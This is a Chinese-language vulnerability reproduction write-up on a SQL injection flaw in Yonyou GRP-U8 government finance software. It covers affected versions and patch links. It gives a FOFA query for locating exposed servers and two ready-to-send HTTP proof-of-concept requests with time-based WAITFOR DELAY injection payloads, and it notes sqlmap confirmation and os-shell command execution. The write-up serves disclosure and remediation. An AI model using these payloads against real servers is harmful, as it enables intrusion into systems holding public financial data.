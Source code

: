 
# 用友 GRP-U8 SQL 注入漏洞复现

### 0x01 产品简介

    用友 GRP-U8R10 行政事业[财务管理](https://so.csdn.net/so/search?q=%E8%B4%A2%E5%8A%A1%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域最专业的政府财务管理软件。

### 0x02 漏洞概述

 用友 GRP-U8 的 bx\_historyDataCheck jsp、slbmbygr.jsp 等接口存在 SQL 注入漏洞，由于用友 GRP-U8 未对用户的输入进行有效的过滤，直接将其拼接进了 SQL 查询语句中，导致系统出现 SQL 注入漏洞，进一步利用可造成主机失陷。

### 0x03 影响范围

用友 GRP-U8R10 U8Manager B、C、G 系列产品 < 20230905

### 0x04 复现环境

FOFA：app="用友-GRP-U8"

![](assets/1698896249-edaf919c717165a5a368aa4eebcc4e7d.png)

### 0x05 漏洞复现

PoC-1

```http
GET /u8qx/slbmbygr.jsp?gsdm=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: {{Hostname}}
```

延时 5 秒

![](assets/1698896249-b5a2f434ce98fe738cea813113c65cdc.png)

Sqlmap 验证

![](assets/1698896249-ed6d0f831e46585a76b497b4f7df501d.png)

PoC-2

```http
POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

userName=';WAITFOR DELAY '0:0:6'--&class.module.classLoader.DefaultAssertionStatus=
```

 延时 6 秒

![](assets/1698896249-7a34c8453971549cf858d59a2b97ed0a.png)

利用 os-shell 命令执行

![](assets/1698896249-fad835809574dc9e2da5165bde02c05a.png)

### 0x06 修复建议

目前官方已发布更新补丁，获取安全补丁方式如下：

1\. 百度云盘：https://pan.baidu.com/s/1cQIxlUkpYAxE508EXjgQxA 提取码：n1xy

2\. 用友云盘：https://pan.yonyou.com/s/gUWlv8QkSsY 密码：a61h

下载【20230905-关于用友 GRP-U8 bx\_historyDataCheck jsp 存在 SQL 注入漏洞的解决方案.zip】

更新用友 GRP-U8 Manager 产品的 2023 年 10 月份（日期大于等于均可）标准补丁也可以修复此问题。
